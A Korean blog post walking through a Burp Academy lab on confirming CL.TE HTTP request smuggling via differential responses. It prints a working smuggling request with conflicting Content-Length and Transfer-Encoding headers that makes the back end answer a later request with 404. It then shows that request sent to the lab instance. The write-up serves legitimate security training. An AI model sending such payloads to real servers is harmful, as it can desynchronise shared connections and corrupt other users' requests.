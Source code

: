 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Confirming CL.TE vulnerabilities using differential responses"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-09 09:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/finding
- 난이도: PRACTITIONER (보통)

# 취약점 개요
- Burp Academy 에서는 HTTP Request Smuggling을 탐지하는 단계를 세 단계로 나눠서 가르치고 있다. 
- Indentifying과 Confirming, Exploiting이 그 것이다. Indentifying은 식별, Confirming은 확신정도로 이해하면 되겠다. Exploiting은 취약점을 악용하는 단계다.
- Indentifying에서는 타임아웃이 발생하는가를 주로 보고, Confirming에서는 실제로 HTTP요청을 밀반입해서 밀반입한 요청에 대한 HTTP응답이 돌아오는지를 본다. (따라서 오리지널 요청과 밀반입용 요청은 각각 다른 HTTP응답코드가 돌아오는 요청이어야 한다.)
- 예를 들어, CL.TE Confirm용의 HTTP요청은 다음과 같이 생겼다. 

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

- 백엔드에서는 TE를 보므로 `GET /404` 부터는 별도 요청으로 인식해서 다음순서의 HTTP 요청에 대해서 404응답을 회신한다. 
- 404응답이 돌아오면 스머글링이 성공했다고 확신(Confirm)할 수 있다.
- 이 랩에서는 HTTP Request Smuggling 컨펌용 요청(CL.TE패턴)을 사용하는 것을 실습한다.

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드서버는 chunked encoding(TE헤더)를 지원하지 않는다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, `/` 요청을 보냈을 때 404응답이 돌아오도록 하면 된다. 

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.
```

# 도전
1. 취약점 설명에 있는 CL.TE Confirm용 페이로드를 그대로 사용해보자. 다음과 같이 된다. 

```http
POST / HTTP/1.1
Host: 0af10037042fd316812ed9c600230018.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

CL헤더의 값 49는 Foo: x 까지를 정확하게 포함한 값이다. 프론트엔드는 CL헤더를 보기 때문에 Foo: x까지를 하나의 요청으로 인식해서 백엔드로 보낸다. 백엔드는 TE헤더를 보므로 GET 부터는 다른 요청으로 인식한다. 

2. 요청을 보내본다. 동일한 요청을 두번 보내면 두번째부터는 404응답이 돌아오는 것을 볼 수 있다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-4-1.png)

3. 웹 브라우저에서 페이지를 리로드하면 문제가 풀렸다는 메세지가 출력된다. 

![풀이 성공](/images/burp-academy-hrs-4-success.png)